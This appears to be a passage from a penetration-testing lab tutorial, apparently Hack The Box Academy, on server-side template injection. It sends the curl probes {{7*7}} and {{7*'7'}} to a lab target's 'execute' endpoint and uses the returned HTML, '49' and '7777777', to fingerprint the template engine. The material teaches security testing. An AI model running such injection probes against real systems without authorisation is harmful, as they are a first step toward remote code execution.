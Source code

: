 ```shell-session
		</div>
		
		<div id="icons">
			<a class="openWindow" data-id="0">Run</a>
			<a class="openWindow" data-id="1">Welcome</a>
		</div>
		<font size="5px"><a href="https://html5-templates.com/" rel="nofollow" target="_blank" id="templateLink">&copy; HTML5-Templates.com</a></font>
		<!-- You can use this template freely if you leave a visible link to HTML5-Templates.com -->
	</div>
</body>
```

Luckily this time, the application evaluated the latest mathematical expression we submitted and returned the result, 49. It looks like we may be dealing with an SSTI vulnerability!

As already mentioned, the first thing we need to do when dealing with SSTI vulnerabilities is to identify the template engine the application is utilizing. Once again, let's use PortSwigger's diagram in the `SSTI Identification`. We already know that the `{{7*7}}` expression was evaluated successfully. The next expression the diagram suggests trying is `{{7*'7'}}`. Let us try it and see how the application responds.

  SSTI Exploitation Example 3

```shell-session
Pangulin@htb[/htb]$ curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"

<!DOCTYPE html>
<html lang="en">
<style type="text/css">
	#command {
		resize: horizontal;
		background-color : transparent;
		border-color: transparent;
		font-size: 15px;
		width: 200px;

	}
	#command:active {
        width: auto;   
    }
</style>
<head>
	<meta charset="utf-8">
    <meta http-equiv="x-ua-compatible" content="ie=edge">
	<meta name="viewport" content="width=device-width, initial-scale=1" />
	<link rel="stylesheet" href="/static/css/jquery-ui.css">
	<script src="/static/js/jquery-1.12.4.js"></script>
	<script src="/static/js/jquery-ui.js"></script>
	<script src="/static/js/script.js"></script>	
	<link rel="stylesheet" type="text/css" href="/static/css/style.css" />
	<title>Windows</title>
</head>
<body>
	<div id="desktop">
		<div class="window" data-title="Run">
			<form action="/execute" method="get">
				<a>C:\><input type="text" name="cmd" id="command"></a>
				<br/>
				<a>7777777</a>
				<br/>
				<input type="submit" value="execute">
			</form>
		</div>
```